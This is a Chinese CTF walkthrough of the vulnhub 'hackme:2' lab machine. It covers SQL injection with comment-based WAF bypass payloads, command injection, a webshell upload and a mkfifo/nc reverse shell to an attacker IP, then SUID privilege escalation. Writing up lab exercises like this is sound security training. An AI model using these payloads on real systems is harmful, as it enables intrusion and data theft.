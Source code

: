 > 原文链接: https://www.anquanke.com//post/id/227330 


# hackme：2 靶机攻略


                                阅读量   
                                **122746**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p5.ssl.qhimg.com/t013c48ea25872f01b1.png)](https://p5.ssl.qhimg.com/t013c48ea25872f01b1.png)



## 0x01 背景：

hackme:2是vulnhub上的一个medium难度的CTF靶机，难度适中、内容丰富，贴近实战。而且没有太多的脑洞，适合安全工作者们用来练习渗透测试，然而唯一的缺憾是目前没有公开的攻略，因此把个人的通关过程记录于此，作为攻略分享给大家！



## 0x02 技术关键词：

`SQL注入、WAF Bypass、模糊测试、文件上传、suid提权`



## 0x03 靶机发现与端口扫描

做vulnhub上的靶机的第一步，所有的靶机都是一样的套路，不在这里多费笔墨。

[![](https://p5.ssl.qhimg.com/t018b18becf20e217ad.png)](https://p5.ssl.qhimg.com/t018b18becf20e217ad.png)

[![](https://p0.ssl.qhimg.com/t0122ee7116c8895706.png)](https://p0.ssl.qhimg.com/t0122ee7116c8895706.png)



## 0x04 SQL注入与WAF Bypass

打开位于80端口的Web页面，注册一个测试账号wangtua/wangtua，就可以登录系统了，可以发现是一个书店系统。

[![](https://p4.ssl.qhimg.com/t012802b1c4f7c4f8c0.png)](https://p4.ssl.qhimg.com/t012802b1c4f7c4f8c0.png)

进入系统之后发现有一个搜索框，SQL注入的套路很明显了。要做SQL注入、第一步就是猜测SQL语句的格式和注入点。

### <a class="reference-link" name="1%E3%80%81%E6%8E%A2%E6%B5%8BSQL%E6%A0%BC%E5%BC%8F%EF%BC%8CWAF%E8%A7%84%E5%88%99"></a>1、探测SQL格式，WAF规则

本搜索框的功能是检索数据库中的书名、当搜索框为空的时候，可以返回所有的内容，

[![](https://p1.ssl.qhimg.com/t014128e3e2852aa799.png)](https://p1.ssl.qhimg.com/t014128e3e2852aa799.png)

当搜索框中只包含书名的前一部分的时候，也可以返回对应的内容：

[![](https://p4.ssl.qhimg.com/t01323ca751312a1b94.png)](https://p4.ssl.qhimg.com/t01323ca751312a1b94.png)

因此我们猜测SQL语句格式为(%代表通配符，可以匹配零个或者多个任意字符)：<br>`$sql = "SELECT * FROM BOOKS WHERE book_name LIKE '".$input."%';"`<br>
基于此，我们构造如下payload：`Linux%' and '123' like '1`

[![](https://p5.ssl.qhimg.com/t01d3890668d922d39e.png)](https://p5.ssl.qhimg.com/t01d3890668d922d39e.png)

使用另一个payload：`Linux%' and '23' like '1`<br>
发现无法返回结果

[![](https://p2.ssl.qhimg.com/t01e7094981f82985b2.png)](https://p2.ssl.qhimg.com/t01e7094981f82985b2.png)

可以验证我们的想法。<br>
然而我们使用数据库函数的时候却出现了问题：<br>
Payload:`Linux%'/**/and database() like/**/'`<br>**没有返回内容**,而当我们使用注释符来代替空格的时候，则**可以执行成功**。

[![](https://p1.ssl.qhimg.com/t011578d6c1594888dd.png)](https://p1.ssl.qhimg.com/t011578d6c1594888dd.png)

### <a class="reference-link" name="2%E3%80%81%E6%9E%84%E9%80%A0Payload"></a>2、构造Payload

通过构造联合查询，一步一步获取出数据库名，表名，列名和字段<br>`Linux%'/**/union/**/select/**/database/**/(),'2','3`

[![](https://p2.ssl.qhimg.com/t01d25c79b3ce172b43.png)](https://p2.ssl.qhimg.com/t01d25c79b3ce172b43.png)

`Linux%'/**/union/**/select/**/group_concat(table_name),"2","3"/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/'webapp`

[![](https://p4.ssl.qhimg.com/t01f67cc8c1dcfbecbd.png)](https://p4.ssl.qhimg.com/t01f67cc8c1dcfbecbd.png)

`Linux%'/**/union/**/select/**/group_concat(column_name),"2","3"/**/from/**/information_schema.columns/**/where/**/table_name/**/like/**/'users'and/**/table_schema/**/like'webapp`

[![](https://p1.ssl.qhimg.com/t01e9f5c9e889645006.png)](https://p1.ssl.qhimg.com/t01e9f5c9e889645006.png)

`Linux%'/**/union/**/select/**/group_concat(user),'2',group_concat(pasword)/**/from/**/users/**/where/**/'1'/**/like/**/'`

[![](https://p2.ssl.qhimg.com/t013e6d0531359652c2.png)](https://p2.ssl.qhimg.com/t013e6d0531359652c2.png)

到此为止我们发现了一个superadmin的账号，将md5值在线解码之后发现是Uncrackable



## 0x05 模糊测试与命令执行

进入超级管理员账号之后，我们发现了一个可以进行文件上传的点,

[![](https://p2.ssl.qhimg.com/t01aa18243223775d7a.png)](https://p2.ssl.qhimg.com/t01aa18243223775d7a.png)

上传cat.jpg之后，页面上回显了上传路径。<br>
然而我们却无法直接访问任何文件。<br>
接下来我们注意到下面两个输入框，可以将处理结果回显到页面上，这里我除了想到XSS之外。还想到了测试命令注入或者模板注入。可以发现在Last Name输入框里输入`7*7`，可以返回`49`<br>
我们可以使用BurpSuite专业版的Intruder模块来进行模糊测试。

[![](https://p0.ssl.qhimg.com/t0147a88da17864766c.png)](https://p0.ssl.qhimg.com/t0147a88da17864766c.png)

Payload选择模糊测试-完整，

[![](https://p0.ssl.qhimg.com/t0130feaa3a796c4261.png)](https://p0.ssl.qhimg.com/t0130feaa3a796c4261.png)

点击开始攻击。<br>
攻击完成之后可以发现 ``id` ` 这个payload有命令执行的回显。

[![](https://p0.ssl.qhimg.com/t018a035c130735b7eb.png)](https://p0.ssl.qhimg.com/t018a035c130735b7eb.png)

我们换其他命令来执行，例如pwd,ls都可以正确执行而cat命令无法执行，猜测其过滤了空格，我们使用`cat&lt;welcomeadmin.php`这个payload来绕过过滤。<br>
可以看到在返回包里泄露的welcomeadmin.php的完整源代码，包括文件上传的绝对路径。

[![](https://p5.ssl.qhimg.com/t011a53fa9e663ee271.png)](https://p5.ssl.qhimg.com/t011a53fa9e663ee271.png)

以及命令执行的成因：

[![](https://p2.ssl.qhimg.com/t01dbe80cdd4332bb10.png)](https://p2.ssl.qhimg.com/t01dbe80cdd4332bb10.png)

使用哥斯拉生成木马并上传，发现php后缀被过滤，换成php3等也不行。

[![](https://p1.ssl.qhimg.com/t01760ce9246d07092e.png)](https://p1.ssl.qhimg.com/t01760ce9246d07092e.png)

[![](https://p1.ssl.qhimg.com/t013c54a30f439a0b1e.png)](https://p1.ssl.qhimg.com/t013c54a30f439a0b1e.png)

后缀改成png之后才上传成功，然而无法正常解析成PHP文件。

[![](https://p1.ssl.qhimg.com/t01e4d11495ebc0e0d9.png)](https://p1.ssl.qhimg.com/t01e4d11495ebc0e0d9.png)

这里考虑使用刚才的命令执行漏洞，将文件名改成god.php

[![](https://p4.ssl.qhimg.com/t01bcea70c5703af50f.png)](https://p4.ssl.qhimg.com/t01bcea70c5703af50f.png)

使用哥斯拉进行连接，发现连接成功

[![](https://p0.ssl.qhimg.com/t018a7d16925256e9dd.png)](https://p0.ssl.qhimg.com/t018a7d16925256e9dd.png)



## 0x06 后渗透与提权

为了可以有更好的交互环境，我们用kali自带的weevely生成木马并连接，完成连接之后使用nc反弹shell：<br>
由于靶机的nc版本特殊，无法使用nc -e选项，因此这里使用了如下的payload<br>`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2&gt;&amp;1|nc 192.168.48.129 2333 &gt;/tmp/f`<br>
(来自参考资料2)

[![](https://p1.ssl.qhimg.com/t01525cd9639a374c44.png)](https://p1.ssl.qhimg.com/t01525cd9639a374c44.png)

使用pyhton伪终端命令,可以在伪终端执行sudo等命令

[![](https://p4.ssl.qhimg.com/t0150df668cd2328bf7.png)](https://p4.ssl.qhimg.com/t0150df668cd2328bf7.png)

使用命令`find / -perm -u=s -type f 2&gt;/dev/null`来发现设置了suid位的应用程序（参考资料1）<br>
关于suid提权的原理，可以参考P师傅的博客(参考资料3)。

发现home目录下有一个可疑的文件，执行一下之后发现顺利get root权限。

[![](https://p5.ssl.qhimg.com/t01885ba4289694db50.png)](https://p5.ssl.qhimg.com/t01885ba4289694db50.png)

[![](https://p1.ssl.qhimg.com/t012624487f7e25288f.png)](https://p1.ssl.qhimg.com/t012624487f7e25288f.png)



## 0x07 总结与复盘：

这台靶机感觉制作的比较用心，SQL注入和文件上传等部分都比较贴近实战，唯一美中不足的是提权部分有些太过简单。目前本人正在备考OSCP，在vulnhub和HTB上做了不少靶机，打算最近把vulnhub上后渗透的套路总结一下，再发一篇文章，希望大家支持一下。



## 0x08 参考资料：

1） [https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)<br>
2） [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)<br>
3） [https://www.leavesongs.com/PENETRATION/linux-suid-privilege-escalation.html](https://www.leavesongs.com/PENETRATION/linux-suid-privilege-escalation.html)
